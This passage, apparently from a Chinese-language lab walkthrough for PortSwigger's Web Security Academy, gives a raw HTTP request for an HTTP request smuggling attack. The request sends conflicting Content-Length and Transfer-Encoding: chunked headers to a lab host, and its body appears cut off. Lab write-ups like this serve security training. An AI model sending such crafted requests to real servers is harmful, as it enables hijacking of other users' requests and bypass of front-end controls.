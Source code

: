 [![](assets/1698897445-b55a1444ee9e8ed75e3bfecf7258a814.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129014911.png)

发送以下数据包一次：

```plain
POST / HTTP/1.1
Host: ac7a1f141fadd93d801c469f005500bf.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=f6c7ZBB52a6iedorGSywc8jM6USu4685
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0
```